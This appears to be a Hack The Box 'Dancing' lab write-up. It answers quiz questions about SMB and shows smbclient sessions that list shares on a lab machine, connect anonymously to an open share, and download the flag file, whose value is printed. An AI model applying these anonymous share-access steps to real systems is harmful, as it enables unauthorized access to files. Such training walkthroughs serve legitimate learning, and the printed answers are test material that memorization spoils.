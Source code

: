 # Dancing

> What does the 3-letter acronym SMB stand for? 

#### Server Message Block

---

> What port does SMB use to operate at? 

#### 445 

---

> What network communication model does SMB use, architecturally speaking? 

#### client-server model 

---

> What is the service name for port 445 that came up in our nmap scan?

#### microsoft-ds 

---

> What is the tool we use to connect to SMB shares from our Linux distribution?

#### smbclient

---

> What is the `flag` or `switch` we can use with the SMB tool to `list` the contents of the share? 

#### -L 

---

> What is the name of the share we are able to access in the end?

```console
$ smbclient -L 10.129.217.4
Enter WORKGROUP\marco's password:

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        WorkShares      Disk
SMB1 disabled -- no workgroup available
```

The password can be empty

#### WorkShares 

---

> What is the command we can use within the SMB shell to download the files we find? 

#### get 

---

> Submit root flag 

This time we can connect directly to `WorkShares`

```console
$ smbclient //10.129.217.4/WorkShares
Enter WORKGROUP\marco's password:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Mon Mar 29 10:22:01 2021
  ..                                  D        0  Mon Mar 29 10:22:01 2021
  Amy.J                               D        0  Mon Mar 29 11:08:24 2021
  James.P                             D        0  Thu Jun  3 10:38:03 2021

                5114111 blocks of size 4096. 1732742 blocks available
```

Now is time to find and get the flag

```console
smb: \> get James.P\flag.txt
getting file \James.P\flag.txt of size 32 as James.P\flag.txt (0,0 KiloBytes/sec) (average 0,0 KiloBytes/sec)
smb: \> exit

$ cat James.P\\flag.txt
5f61c10dffbc77a704d76016a22f1664
```

#### HTB{5f61c10dffbc77a704d76016a22f1664}
